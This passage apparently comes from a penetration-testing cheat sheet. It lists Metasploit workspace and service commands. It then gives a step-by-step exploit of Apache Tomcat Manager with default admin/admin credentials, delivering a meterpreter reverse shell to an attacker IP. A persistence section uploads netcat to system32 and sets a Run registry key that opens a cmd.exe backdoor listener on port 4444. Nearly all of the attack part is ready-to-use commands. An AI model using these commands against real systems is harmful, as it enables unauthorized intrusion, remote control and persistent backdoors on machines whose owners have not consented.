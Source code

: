 
```
services -p 22                List specific ports.
services -s http              List specific services.

workspace                     List workspaces.
* default                     * shows the active workspace.
  client1
  client5

workspace client1             Switch workspace.
workspace                     List workspaces.
  default
* client1                     * shows the active workspace.
  client5

workspace -a [name]           Add workspace(s).
workspace -d [name]           Delete workspace(s).
workspace -r <old> <new>      Rename workspace.

```
------------------------------------------------------------------------------------------------------

### Apache Tomcat Manager Common Administrative Credentials

```
use multi/tomcat_mgr_deploy
show options
set password admin
set username admin
set RHOST <target IP>
set RPORT <target port>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker IP>
exploit
```
------------------------------------------------------------------------------------------------------

### Persistance

Example 1
Upload netcat.
```
meterpreter > upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32\\
```

Check for anything the runs at startup.
```
meterpreter > reg enumkey -k HKLM\\software\\windows\\currentversion\\run
```

Add a registry key.
```
meterpreter > reg setval -k HKLM\\software\\windows\\currentversion\\run -v netcat -d ‘c:\windows\system32\nc.exe -ldp 4444 -e cmd.exe'
```
